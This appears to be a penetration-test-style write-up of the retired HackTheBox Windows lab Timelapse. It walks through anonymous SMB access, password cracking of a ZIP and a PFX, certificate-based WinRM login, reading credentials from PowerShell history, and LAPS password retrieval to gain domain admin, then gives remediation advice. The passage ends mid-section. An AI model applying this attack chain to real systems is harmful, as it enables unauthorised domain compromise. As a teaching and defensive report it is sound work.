# Timelapse — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Easy       | Windows | Active Directory |

> Writeup of a retired Timelapse machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. SMB Enumeration](#12-smb-enumeration)
  * [1.3. Archive Retrieval and Password Cracking](#13-archive-retrieval-and-password-cracking)
  * [1.4. Certificate Extraction](#14-certificate-extraction)
  * [2.1. Initial Foothold via WinRM](#21-initial-foothold-via-winrm)
  * [2.2. User Flag](#22-user-flag)
  * [2.3. Credential Discovery in PowerShell History](#23-credential-discovery-in-powershell-history)
  * [3.1. Lateral Movement to svc_deploy](#31-lateral-movement-to-svc_deploy)
  * [3.2. LAPS Password Retrieval](#32-laps-password-retrieval)
  * [3.3. Administrator Access and Root Flag](#33-administrator-access-and-root-flag)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Timelapse / IP: 10.129.227.113`
**Platform:** `HackTheBox`
**Date Completed:** `September 25, 2026`
**Assessment Type:** `Active Directory / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Timelapse environment. The test was carried out from the perspective of a complete outsider with no prior access, credentials, or knowledge of the environment.

The results are serious. Our team was able to gain full administrative control of the organization's primary server, starting from a position of zero access. In a real-world scenario, this would allow an attacker to access all data on the network, take over or create user accounts, and cause significant disruption to the organization — all without physical access to any device.

Four security issues were identified that made this possible. They relate to how files are shared on the network, how passwords are chosen to protect sensitive materials, how past activity is recorded on user accounts, and how administrative access is granted to certain staff accounts. None require new software to fix — all are addressable through changes to existing settings and practices.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address                       | Description                                                         |
| --------------------------------------------- | ------------------------------------------------------------------- |
| `timelapse.htb / 10.129.227.113`              | Target machine — Windows Server Domain Controller (`dc01.timelapse.htb`) |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — SMB share enumeration and file collection without credentials.
3. **Vulnerability Analysis** — identifying weak passwords, exposed credentials, and overpermissive group memberships.
4. **Exploitation** — certificate-based WinRM authentication for initial foothold.
5. **Privilege Escalation** — credential recovery from PowerShell history and LAPS password disclosure.
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool              | Purpose                                                                          |
| ----------------- | -------------------------------------------------------------------------------- |
| `Nmap`            | Port scanning and service enumeration                                            |
| `smbclient`       | Unauthenticated SMB share enumeration and file retrieval                         |
| `zip2john`        | Extracting the password hash from a password-protected ZIP archive               |
| `pfx2john`        | Extracting the password hash from a password-protected PFX certificate file      |
| `John the Ripper` | Dictionary-based password cracking against the ZIP and PFX hashes               |
| `openssl`         | Extracting the SSL certificate and private key from the decrypted PFX file       |
| `Evil-WinRM`      | Certificate-based and credential-based remote shell access via WinRM over SSL    |
| PowerShell        | Post-exploitation enumeration (history, user info, LAPS password retrieval)      |

---

## Assessment Summary (Findings Overview)

Starting from a completely unauthenticated position, a sensitive authentication certificate was recovered from an openly accessible network share, protected only by weak passwords that were cracked in seconds. The resulting access allowed discovery of a second account's credentials stored in plaintext in a command history file. That account's group membership permitted retrieval of the local Administrator password for the Domain Controller, resulting in full domain compromise. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 2     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| #  | Severity | Finding Name                                                              |
| -- | -------- | ------------------------------------------------------------------------- |
| 1  | Critical | Overpermissive LAPS_Readers Membership Enabling Administrator Password Disclosure |
| 2  | High     | Unauthenticated SMB Share Exposing Authentication Certificate             |
| 3  | High     | Domain User Credentials Stored in Plaintext in PowerShell Command History |
| 4  | Medium   | Weak Passwords Protecting Sensitive Archive and Certificate Files         |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to domain Administrator compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap 10.129.227.113 -sC -sV -Pn
```



**Findings:** The target is a Windows Server Domain Controller for the `timelapse.htb` domain. Key open ports include:

| Port | Service       | Significance                                                     |
| ---- | ------------- | ---------------------------------------------------------------- |
| 53   | DNS           | Domain naming — confirms DC role                                 |
| 88   | Kerberos      | Authentication service — confirms DC role                        |
| 139/445 | SMB        | File sharing — high-value enumeration target                     |
| 389  | LDAP          | Directory services                                               |
| 5986 | WinRM (SSL)   | Encrypted remote management — foothold vector if certs or credentials are found |

Notably, WinRM is running over SSL on port 5986 rather than the standard port 5985. This is significant because certificate-based authentication is possible, meaning a valid SSL certificate and private key can substitute for a username and password. Host entries were added for name resolution:

```
echo "10.129.227.113 timelapse.htb dc01.timelapse.htb" | sudo tee -a /etc/hosts
```

---

### 1.2. SMB Enumeration

```
smbclient -L //10.129.227.113/
```



**Findings:** The share listing was returned without authentication. The non-default `Shares` share is an immediate point of interest. Connecting to it without credentials revealed two subdirectories: `Dev` and `HelpDesk`.

```
smbclient //10.129.227.113/Shares
dir
cd Dev
dir
get winrm_backup.zip
```



**Findings:** The `Dev` directory contained a single file: `winrm_backup.zip`. The filename explicitly references WinRM — the remote management service identified as open on port 5986. This strongly suggests the archive contains authentication material for that service.

---

### 1.3. Archive Retrieval and Password Cracking

```
unzip winrm_backup.zip
```



**Findings:** The archive is password-protected and contains a single file: `legacyy_dev_auth.pfx`. A `.pfx` file is a certificate bundle that can contain both a public certificate and a private key — exactly what is needed for certificate-based WinRM authentication as the `legacyy` user. The filename provides a direct indicator of the target account.

`zip2john` was used to extract the archive's password hash, which was then cracked with John the Ripper against the `rockyou.txt` wordlist:

```
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt.gz
```



**ZIP password recovered:** `supremelegacy`

With the archive unlocked, the PFX file was extracted. However, attempting to export the private key revealed the PFX itself was also password-protected:

```
unzip winrm_backup.zip
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```



The same cracking approach was applied to the PFX:

```
python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt
john pfx.john --show
```



**PFX password recovered:** `thuglegacy`

---

### 1.4. Certificate Extraction

With the PFX password known, the SSL certificate and private key were extracted using OpenSSL:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

**Result:** `cert.pem` (the public certificate) and `key.pem` (the private key) were extracted and are ready for use with Evil-WinRM for certificate-based authentication.

---

### 2.1. Initial Foothold via WinRM

With the certificate and private key in hand, authentication to WinRM over SSL was attempted:

```
evil-winrm -i 10.129.227.113 -c cert.pem -k key.pem -S
whoami
```



**Result:** Authentication was successful. An interactive PowerShell session was obtained on the Domain Controller as `timelapse\legacyy`.

---

### 2.2. User Flag

```powershell
cd ..
cd Desktop
more user.txt
```



**user.txt:** `529511c64e4ac01f714bbcd3d66dd48e`

---

### 2.3. Credential Discovery in PowerShell History

PowerShell retains a persistent history of commands run in previous sessions in a plain-text file. This file was read:

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



**Findings:** The history file contained a previously executed command that included the `svc_deploy` account's password hardcoded as a plaintext argument. This is a common credential leak vector — developers and administrators frequently run one-off commands with embedded credentials without realising the history file captures them permanently.

**Credential recovered:** `svc_deploy` : `E3R$Q62^12p7PLlC%KWaxuaV`

---

### 3.1. Lateral Movement to svc_deploy

The recovered credentials were used to open a new WinRM session as `svc_deploy`:

```
evil-winrm -i 10.129.227.113 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
whoami
```



The user's group memberships were enumerated to identify privilege escalation paths:

```powershell
net user svc_deploy
```



**Findings:** `svc_deploy` is a member of the `LAPS_Readers` group. Local Administrator Password Solution (LAPS) is a Microsoft feature that manages unique, automatically rotating passwords for the local Administrator account on domain-joined computers. Members of `LAPS_Readers` are authorized to read these passwords from Active Directory. With this group membership, the local Administrator password for any managed computer — including the Domain Controller — can be retrieved in plaintext.

---

### 3.2. LAPS Password Retrieval

```powershell
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd
```



**Result:** The LAPS-managed local Administrator password for `DC01` was returned in plaintext:

**Administrator password:** `-%rY3e0A.,)U6k1Q%3TbA2a8`

---

### 3.3. Administrator Access and Root Flag

The retrieved Administrator password was used to open a new WinRM session with full administrative privileges:

```
evil-winrm -i 10.129.227.113 -u administrator -p '-%rY3e0A.,)U6k1Q%3TbA2a8' -S
Get-ChildItem -Path C:\ -Filter "root.txt" -Recurse -ErrorAction SilentlyContinue
more C:\users\trx\desktop\root.txt
```



**Result:** Full administrative access to the Domain Controller was achieved. The root flag was found in `C:\Users\TRX\Desktop\root.txt`, indicating an additional user account (`TRX`) present on the machine.

**root.txt:** `dc460e07f0201b673e068c83a3ebc1f6`

---

## Technical Findings Details

### 1. Overpermissive LAPS_Readers Membership Enabling Administrator Password Disclosure — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVSS 3.1 Score**                 | 9.0 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                 |
| **Description (Incl. Root Cause)** | The `svc_deploy` service account is a member of the `LAPS_Readers` group, which grants permission to read the LAPS-managed local Administrator password from Active Directory for any domain-joined computer. Using this membership, the local Administrator password for `DC01` (the Domain Controller) was retrieved in plaintext with a single PowerShell command. The root cause is an over-permissive group assignment — a service account used for deployment tasks has no operational need to read Administrator passwords for Domain Controllers. |
| **Security Impact**                | Any attacker who compromises `svc_deploy` — through any means, including the credential found in PowerShell history — immediately gains full administrative access to the Domain Controller. This finding is the final step in the full domain compromise chain and is the highest-severity issue in this assessment.                                                                                                                               |
| **Affected Host(s)**               | `dc01.timelapse.htb` — Active Directory group membership on `svc_deploy`; LAPS attribute `ms-Mcs-AdmPwd` on `DC01`                                                                                                                                                                                                                                                                                                                               |
| **Remediation**                    | - Remove `svc_deploy` from the `LAPS_Readers` group immediately and audit all other members of `LAPS_Readers` to verify each has a documented, operational need for that access — Restrict `LAPS_Readers` membership to only the specific accounts that operationally require it, following the principle of least privilege — Rotate the LAPS-managed Administrator password on `DC01` immediately, as it has been disclosed — Implement tiered administration to prevent service accounts from holding privileges over Tier-0 assets such as Domain Controllers |
| **References**                     | [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/) · [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)                                                                            |

**Evidence:**

```powershell
# svc_deploy group membership confirmed:
net user svc_deploy
# Output: LAPS_Readers (Global Group), Domain Users

# LAPS password retrieved in plaintext:
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd
# DC01  -%rY3e0A.,)U6k1Q%3TbA2a8
```

`Screenshot LAPS-password.png: Get-ADComputer output showing the DC01 LAPS password returned in plaintext to the svc_deploy session`

---

### 2. Unauthenticated SMB Share Exposing Authentication Certificate — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                       |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-284: Improper Access Control                                                                                                                                                                                                                                                                                                                                                                               |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                  |
| **Description (Incl. Root Cause)** | The `Shares` SMB share on the Domain Controller was accessible without any authentication. Inside it, the `Dev` subdirectory contained `winrm_backup.zip` — an archive holding `legacyy_dev_auth.pfx`, a certificate bundle used for WinRM authentication as the domain user `legacyy`. The root cause is the absence of access controls on a share that was almost certainly intended only for internal use. |
| **Security Impact**                | Any attacker or unauthenticated user on the network can download a WinRM authentication certificate for a domain user account. Once the certificate's password is cracked (Finding #4), they can authenticate directly to the Domain Controller as that user. This is the initial access point of the full domain compromise chain.                                                                             |
| **Affected Host(s)**               | `10.129.227.113:445` (SMB share: `Shares`, path: `\Dev\winrm_backup.zip`)                                                                                                                                                                                                                                                                                                                                     |
| **Remediation**                    | - Disable anonymous and guest SMB access on all domain-joined systems via Group Policy — Restrict the `Shares` share to only the specific user accounts or groups that operationally require it — Remove or securely relocate any authentication certificates or credential material from shared network locations — Audit all SMB shares across the domain for anonymous or overly broad access |
| **References**                     | [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/) · [MITRE ATT&CK: T1552.004 — Unsecured Credentials: Private Keys](https://attack.mitre.org/techniques/T1552/004/) · [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)                                                                                                          |

**Evidence:**

```
smbclient -L //10.129.227.113/
# No credentials required — share listing returned anonymously
# Shares share accessible, winrm_backup.zip downloaded without authentication
```

`Screenshot anon-smb.png: smbclient listing all shares without credentials`
`Screenshot get-winrm-backup.png: winrm_backup.zip retrieved from the Dev subdirectory`

---

### 3. Domain User Credentials Stored in Plaintext in PowerShell Command History — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-312: Cleartext Storage of Sensitive Information                                                                                                                                                                                                                                                                                                                                                                                              |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                  |
| **Description (Incl. Root Cause)** | The PowerShell `PSReadLine` module saves a persistent, plaintext history of all previously executed commands to `ConsoleHost_history.txt` in the user's `AppData` directory. A previous administrator or developer had run a command that embedded the `svc_deploy` account's password directly as a plaintext argument. This command was captured verbatim in the history file and remained there indefinitely. Any user with access to the `legacyy` profile — including a remote attacker with a WinRM shell — can read this file. |
| **Security Impact**                | Reading a single text file was sufficient to recover a second set of domain credentials, enabling lateral movement to the `svc_deploy` account and all the privileges that come with it (including `LAPS_Readers` membership and the full domain compromise described in Finding #1).                                                                                                                                                             |
| **Affected Host(s)**               | `dc01.timelapse.htb` — `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`                                                                                                                                                                                                                                                                                                                        |
| **Remediation**                    | - Never pass credentials as plaintext arguments in PowerShell commands; use `Get-Credential` or a secrets management solution to handle credentials at runtime — Clear the PowerShell history file on all affected systems immediately and rotate the `svc_deploy` password — Consider disabling PSReadLine history logging on sensitive administrative hosts via Group Policy (`Set-PSReadLineOption -HistorySaveStyle SaveNothing`) — Train administrators and developers on the risk of plaintext credentials in command lines and shell history |
| **References**                     | [MITRE ATT&CK: T1552.003 — Unsecured Credentials: Bash History](https://attack.mitre.org/techniques/T1552/003/) · [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)                                                                                                                                                                                                                        |

**Evidence:**

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# Relevant line recovered:
# $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
# svc_deploy password exposed in plaintext
```

`Screenshot powershell_history.png: ConsoleHost_history.txt contents showing the svc_deploy plaintext password embedded in a previous command`

---

### 4. Weak Passwords Protecting Sensitive Archive and Certificate Files — Medium

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                           |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-521: Weak Password Requirements                                                                                                                                                                                                                                                                                                                                                                |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`                                                                                                                                                                                                                                                                                                                                    |
| **Description (Incl. Root Cause)** | Both `winrm_backup.zip` (password: `supremelegacy`) and `legacyy_dev_auth.pfx` (password: `thuglegacy`) were protected with weak passwords present in the publicly available `rockyou.txt` wordlist. John the Ripper cracked both passwords in under a minute. Password protection on an archive or certificate file provides meaningful security only if the password is strong enough to resist offline cracking. Because these files were downloaded from a network share, an attacker can perform cracking attempts offline, without any rate limiting or lockout mechanism. |
| **Security Impact**                | The weak passwords provided no effective barrier. Once `winrm_backup.zip` was downloaded (Finding #2), the authentication certificate inside was accessible within seconds, enabling the WinRM foothold as `legacyy`. This finding is a direct enabler of the initial foothold.                                                                                                                    |
| **Affected Host(s)**               | Files obtained from `10.129.227.113:445` (share: `Shares`) — `winrm_backup.zip` and `legacyy_dev_auth.pfx`                                                                                                                                                                                                                                                                                        |
| **Remediation**                    | - If authentication certificates must be distributed in archives or bundles, protect them with long, randomly generated passwords (20+ characters) stored in an approved password manager or secrets vault — never use dictionary words or simple phrases — Prefer distributing certificates through secure, authenticated channels (e.g., a PKI portal with MFA) rather than network file shares — Audit all certificate files stored on shared network locations and move or remove them |
| **References**                     | [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/) · [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)                                                                                                                                                                                               |

**Evidence:**

```bash
# ZIP cracked:
zip2john winrm_backup.zip > zip.john
